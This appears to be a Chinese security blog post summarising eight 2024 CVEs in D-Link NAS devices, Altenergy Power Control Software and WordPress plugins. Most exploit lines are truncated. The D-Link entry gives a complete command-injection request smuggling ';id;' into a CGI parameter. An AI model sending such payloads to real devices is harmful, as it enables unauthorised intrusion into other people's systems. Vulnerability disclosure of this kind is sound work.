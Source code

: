 #  2024年wordpress、d-link等相关的多个cve漏洞   
棉花糖糖糖  TtTeam   2024-11-25 00:50  
  
⚠️漏洞  
  
  
一、CVE-2024-10914  
  
- D-Link DNS-320、DNS-320LW、DNS-325 及 DNS-340L 中的漏洞，版本截至 20241028。  
  
- 利用方式：GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1。  
  
二、CVE-2024-11305  
  
- Altenergy Power Control Software 关键漏洞，版本截至 20241108。  
  
- 利用方式：  
  
- POST /index.php/display/status_zigbee HTTP/1.1等一系列请求头信息。  
  
三、CVE-2024-10793  
  
- WP Security Audit Log 插件的 XSS 漏洞。  
  
- 利用方式：curl -X POST...。  
  
四、CVE-2024-11199  
  
- 插件 rescue_progressbar 的存储 XSS 攻击。  
  
- 利用方式：[rescue_progressbar...]。  
  
五、CVE-2024-11381  
  
- 插件 ch_registro 的存储 XSS 攻击。  
  
- 利用方式：[ch_registro...]。  
  
六、CVE-2024-43919  
  
- YARPP <= 5.30.10 缺少授权漏洞，可未经授权修改展示类型。  
  
- 利用方式：GET /...。  
  
七、CVE-2024-52433  
  
- My Geo Posts Free <= 1.2 的未经认证 PHP 对象注入漏洞。  
  
- 利用方式：GET / HTTP/2...。  
  
八、CVE-2024-9935  
  
- Elementor 页面构建器 PDF 生成插件 <= 1.7.5 的未经认证任意文件下载漏洞。  
  
- 利用方式：GET /...。  
  
免责声明：仅供教育目的，未经许可使用这些漏洞非法，作者不承担后果。  
  
  
